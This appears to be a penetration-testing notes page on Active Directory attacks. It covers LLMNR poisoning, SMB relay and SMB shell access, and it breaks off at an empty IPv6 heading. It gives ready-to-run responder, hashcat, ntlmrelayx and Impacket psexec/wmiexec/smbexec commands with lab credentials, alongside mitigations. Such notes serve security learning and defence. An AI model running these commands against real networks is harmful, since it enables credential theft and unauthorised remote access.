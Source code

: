 ```yaml
---
description: Hacking Active directory
---
```


# AD attacks

### LLMNR Poisoning

DNS or NBT-NS. Responds with NTLMv2 hash.

`responder -I eth0 -rdwv`

`hashcat -m 5600 hashes.txt rockyou.txt`

Mitigation:

* Disable LLMNR

  Local Computer Policy &gt; Computer Configuration &gt; Administrative Templates &gt; Network &gt; DNS Client in the Group Policy Editor&gt; "Turn OFF Multicast Name Resolution" 

* Disable NBT-NS

  Network Connections &gt; Network Adapter Properties &gt; TCPv4 Properties &gt; Advanced tab &gt; WINS tab &gt; select "Disable NetBIOS over TCP/IP"

\(Else\)

* Require Network Access Control
* Strong user passwords &gt; 14 characters and limit common word usage.

### SMB Relay

SMB signing must be disabled on target.

We can scan if host has SMB signing disabled using nessus, smbsign, nmap etc. Below is an namp scan result example where the SMB signing is 'not required' and can perform relay attacks on

```text
nmap --script=smb2-security-mode.nse -p445 192.168.42.0/24

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

Steps:

1. write target ip address to `targets.txt`
2. Config responder to turn off 'HTTP' and 'SMB' to prevent responding to these protocols `/usr/share/responder/Responder./conf`
3. Use `ntlmrelayx.py -tf targets.txt -smb2support`

Mitigation:

* Enable SMB signing on all
  * pro: completely stops attacks. 
  * con: causes performance issues with file copying
* Disable NTLM auth
  * pro: completely stops attacks
  * con: if kerberos stop working, windows default back to NTLM
* Account tiering
  * pro: Limits domain admins to specific tasks
  * con: enforicing policy may be difficult
* Local admin restriction
  * pro: prevents alot lateral movements.
  * con: potentially increase in amount of service desk tickets

### SMB gaining shell access

```bash
# Impacket
psexec.py adhacking.local/saul:Password123@192.168.42.139

# Wmiexec
wmiexec.py adhacking.local/saul:Password123@192.168.42.139

# Smbexec
smbexec.py adhacking.local/saul:Password123@192.168.42.139

# Metasploit
exploit(windows/smb/psexec) > 

```

\`\`

\`\`

\`\`

### IPv6 Attacks

